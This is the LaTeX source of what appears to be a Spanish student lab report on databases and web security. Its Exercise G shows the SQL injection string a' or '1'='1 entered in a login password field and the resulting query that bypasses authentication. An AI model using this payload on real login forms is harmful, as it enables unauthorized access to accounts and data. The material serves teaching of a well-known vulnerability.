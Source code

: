\documentclass{article}
\begin{document}
\subsection{Ejercicio E: {\small Realización de una página PHP \texttt{borraCliente.php}}}
\subsection{Ejercicio F: {\small Estudio de bloqueos y deadlocks}}
\section{Seguridad}
\subsection{Ejercicio G: {\small Acceso indebido a un sitio web}}
Para ambos casos basta con introducir en el campo Contraseña la siguiente cadena:
\begin{lstlisting}
      a' or '1'='1
\end{lstlisting}
Con ello lo que hará será formarse la siguiente consulta:
\begin{lstlisting}
     select * from customers where username='gatsby' and password='a' or '1'='1'
\end{lstlisting}
La cual siempre reporta la tabla entera de \texttt{customers}, validando el proceso de ingreso en la página.

        \begin{minipage}{\linewidth}
            \centering
            \captionsetup{type=figure}
            \caption{\textit{Login correcto}}
            \label{fig:fig1}
            \includegraphics[scale=0.3]{img/sql_inject1}
        \end{minipage}
\end{document}
